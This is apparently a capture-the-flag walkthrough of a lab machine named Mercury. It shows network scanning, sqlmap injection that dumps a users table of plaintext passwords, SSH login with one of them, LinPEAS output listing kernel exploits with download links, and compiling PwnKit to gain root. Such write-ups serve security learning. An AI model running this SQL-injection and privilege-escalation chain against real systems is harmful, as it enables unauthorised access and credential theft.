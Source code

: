 I scan my network with:
````
sudo arp-scan -I eth1 -l
````
And the we run a nmap with the IP we get from our network:
  ````
sudo nmap -sT <ip>
````
the results:
````
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

````
I also got this: http://<ip>/mercuryfacts/1/ by navigating through the website.
It looks like a query for facts to mercury. I ran sqlmap to check this:

````
sqlmap -u http://IP:8080/mercuryfacts/1 --dbs 
````
from that command I got the following result:
````
[INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

````

Then I checked for the tables inside mercury DB

````
sqlmap -u http://IP/mercuryfacts/1 -D mercury --tables  
````
````
Database: mercury
[2 tables]
+-------+
| facts |
| users |
+-------+
````
And by dumping the content of the table users I got:
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --columns
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+


````
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --dump   
````
````
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
````
With this information I got access throught the webmaster username via SSH. Inside is the userflag.

From here I check the linux kernel version and vulnerabilities that might be vulnerable to; This with the help of LinPEAS:

````

Linux version 5.4.0-45-generic

[+] [CVE-2022-2586] nft_object UAF                                                                        

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
````

I decided to use Pwnkit, I cloned the repo https://github.com/ly4k/PwnKit and send the .c file with scp,
````
scp ./PwnKit.c webmaster@10.0.3.244:/home/webmaster
````
With the .c file on the machine, I proceded to compile the file.

````
 gcc -shared PwnKit.c -o Pwnkit -Wl,-e,entry -fPIC
````
From here I have a root access and just run a find to locate the root flag:
````
find / -name "*flag.txt" ````
